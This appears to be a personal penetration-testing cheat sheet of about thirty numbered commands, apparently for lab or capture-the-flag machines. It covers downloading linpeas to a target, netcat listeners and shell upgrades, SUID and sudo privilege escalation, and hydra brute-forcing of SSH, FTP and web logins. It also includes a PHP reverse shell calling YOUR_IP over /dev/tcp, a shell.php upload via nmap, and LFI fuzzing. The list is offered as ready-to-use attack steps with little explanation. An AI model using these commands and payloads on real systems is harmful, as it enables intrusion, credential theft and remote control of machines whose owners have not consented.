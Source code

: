 1. wget http://192.168.2.4/linpeas.sh - Downloading linpeas on the target machine
2. python3 -m http.server 80 - Setting up a server
3. nc -lvnp 4444 - Set netcat listener
4. python -c 'import pty; pty.spawn("/bin/sh")' - upgrading shell
5. find / -perm /4000 -type f 2>/tmp/2 - checking SUID
6. sudo netdiscover -i eth0 - Checking Devices on the network
7. nc -nvlp 1234 - Set netcat listener
8. https://gtfobins.github.io/ -- For privilage escalation
9. python3 -c 'import pty;pty.spawn("/bin/bash")' -- upgrading shell
10. sudo -l -- Check User Permissions
11. hydra -L <userlist> -P <passwordlist> ssh://<ipaddress> (can add T4 to make it faster and -f to stop
    the scan after the password is found.
12. sudo -l
13. sudo su
14. ls -la
15. hydra -L <wordlist> -P /usr/share/wordlists/amass/all.txt -e nsr ftp://<ftp>
16. hydra -l <username> -P /path/to/wordlist.txt <target> http-post-form "/textpattern/textpattern:username=^USER^&password=^PASS^:F=Login failed" -V -f
17. zip2john file.zip
18. <?php
    exec("/bin/bash -c 'bash -i >& /dev/tcp/YOUR_IP/PORT 0>&1'");
    ?>
19.find / -perm -u=s -type f 2>/dev/null
20. gobuster dir -u http://192.168.2.15 -w /usr/share/dirbuster/wordlists/directory-list-lowercase-2.3-medium.txt -x .php -t 20 -o gobuster_scan.txt
21. hydra -l admin -P /usr/share/wordlists/rockyou.txt 192.168.1.100 ssh
22. nmap -p 80 192.168.0.181 --script http-put --script-args http-put.url='test/shell.php',http-put.file='shell.php' = for uploading a document.
23. curl -v -X OPTIONS HTTP://192.168.2.23 == for checking permissions on a webpage
24. cat /etc/passwd
25. uname -r
26. scp -P 22222 Summer@192.168.2.33:/home/Morty/journal.txt.zip /tmp == downloading a file via ssh
27. dirb http://192.168.2.35 Drupal.txt
28. find . -exec /bin/sh \; -quit == if find is SUID this can be used to escalate
29. smtp-user-enum -M VRFY -U /usr/share/metasploit-framework/data/wordlists/unix_users.txt -t 192.168.2.25 - smtp user enumeration
30. ffuf -u 'blackwidow/company/started.php?file=FUZZ' -w /home/kali/Downloads/LFI-LFISuite-pathtotest-huge.txt -c -ic -r -fs 0 == for bruteforcing LFI's in a url
